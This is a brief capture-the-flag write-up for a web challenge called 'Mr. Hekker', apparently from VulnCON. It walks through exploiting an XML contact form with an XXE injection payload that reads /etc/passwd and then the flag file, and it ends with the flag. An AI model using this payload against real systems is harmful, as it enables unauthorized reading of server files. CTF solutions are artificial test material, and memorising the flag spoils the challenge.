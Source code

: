 Mr. Hekker- Web

Visit the website https://hekker.noobarmy.org/. There is only a contact form through which we can send data to backend. Fill the form and send the request to the server and see the request and response in Firefox Developers tool or for the simplicity you can use any proxy tool. e.g BurpSuite

As the request sent to server is in xml format so there could be a possibility of XXE Injection.

You can manually craft a payload or use this one:

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE contact [<!ENTITY test SYSTEM'file:///etc/passwd'>]><contact><name>devil</name><email>test@devil.com</email><subject>asd</subject><message>&test;</message></contact>

This payload will fetch content of /etc/passwd file. Now since the payload is working, replace this file path in above payloadwith “file:///home/hekker/flag.txt” to get flag.

Flag: vulncon{MR_H4kk3r_w1th_XXE_(+_+)}
